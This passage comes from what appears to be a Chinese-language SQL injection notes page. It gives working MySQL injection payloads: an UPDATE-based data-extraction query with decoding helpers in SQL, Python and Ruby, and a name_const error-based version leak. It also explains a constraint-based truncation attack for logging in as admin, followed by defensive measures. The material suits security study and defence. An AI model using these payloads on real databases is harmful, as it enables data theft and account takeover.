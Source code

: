 此方法存在MySQL5.7存在限制。因为SQL mode=>'STRICT_TRANS_TABLES';
可以把语句中的'j7ur8'改为'0'就可以了。
```
update users set username = '0'| conv(hex(substr((select username from (select * from users where id=1) as x limit 0,1 ) ,1 + (1-1) * 8, 8 * 1)),16, 10) where id=1;
```

文章中也给出了一个爆错的方法：
```
select * from (select(name_const(version(),1)),name_const(version(),1))a;
```
name_const的参数需要时常量，所以无法进行语句查询。

**解密：**
```
SQL:
	select unhex(conv(value, 10, 16));
Python:
	dec = lambda x:("%x"%x).decode('hex')
Ruby:
	dec = lambda { |x| puts x.to_s(16).scan(/../).map { |x| x.hex.chr }.join }
	dec = lambda { |x| puts x.to_s(16).scan(/\w+/).pack("H*") }
```
## 基于约束

**参考：**
- https://xz.aliyun.com/t/1269

注册一个账户:`admin          1`
在数据库配置中:`username varchar(15)`
所以导致插入的数据变成：`admin         `
而在数据库中如下：
```
+-------------------------+-------------+ 
| username                | password    | 
+-------------------------+-------------+ 
| admin                   | my_password | 
| admin                   | random_pass | 
+-------------------------+-------------+ 
```
第一个没用空格，第二个有空格。所以就可能以真实的admin用户登陆。

**防御措施**

显然，要想开发安全的软件，必须对这种安全漏洞严加防范。下面是我们可采取的几项防御措施：

- 应该为要求/预期具有唯一性的那些列添加UNIQUE约束。这实际上是一个非常重要的软件开发规则。即使您的代码已经提供了完整性检查，也要正确定义您的数据。由于'username'列具有UNIQUE约束，所以插入另一个记录将是不可能的。这两个字符串将被视为等同的，并且INSERT查询将失败。
- 最好使用'id'作为数据库表的主键。此外，数据应该通过程序中的id进行跟踪。
- 为了增加安全性，您还可以手动方式将输入参数修剪为特定长度(具体长度可以视数据库的中设置而定)。

## innodb存储引擎的利用
**参考**
- https://xz.aliyun.com/t/1586
